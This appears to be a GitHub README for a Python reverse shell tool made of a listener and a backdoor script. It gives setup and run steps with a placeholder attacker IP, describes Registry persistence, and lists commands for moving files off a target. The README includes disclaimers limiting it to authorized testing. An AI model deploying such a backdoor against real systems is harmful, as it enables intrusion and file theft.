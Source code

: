 ## :smiling_imp: Python Reverse Shell
This is a Python-based reverse shell tool consisting of a listener and a reverse backdoor script.

It is designed for authorized penetration testing and cybersecurity training in controlled environments.

---

## ⚠ Disclaimer
    This project is for educational purposes only.

    Do NOT run it on any system or network without explicit permission.

    Unauthorized use may be illegal in your country and can result in severe criminal charges.

---

## 📌 Features

    Reliable JSON-based command exchange.

    File upload and download support.

    Ability to change the target’s working directory.

    Simulates persistence via Windows Registry.

    Works with Python 2 and Python 3.

    IP and Port easily configurable in the code.

---

## 🛠 Installation
Clone the repository:
``` bash
git clone https://github.com/Nozarashi-1/python-backdoor.git
cd python-reverse-shell
```
---

## 🚀 Usage
1. Start the Listener
Edit listener.py and set:
``` bash
my_listener = Listener("YOUR_IP", PORT)
Replace YOUR_IP with your testing machine’s IP and PORT with a free TCP port.
```

Run:
``` bash
python listener.py
```
2. Deploy the Backdoor
Edit reverse_backdoor.py and set:
``` bash
my_backdoor = Backdoor("YOUR_IP", PORT)
```
Run:
``` bash
python reverse_backdoor.py
```
---

## 📂 Command Overview (From Listener Side)
| Command           | Description                        | Example               |
| ----------------- | ---------------------------------- | --------------------- |
| `cd <path>`       | Change working directory on target | `cd C:\Windows`       |
| `download <file>` | Download file from target          | `download secret.txt` |
| `upload <file>`   | Upload file to target              | `upload test.txt`     |
| `exit`            | Close the connection               | `exit`                |

---

## ⚖ Legal Notice
    You are 100% responsible for how you use this code.
   
    The authors take no responsibility for any misuse.

    Only use it in environments where you have written authorization.
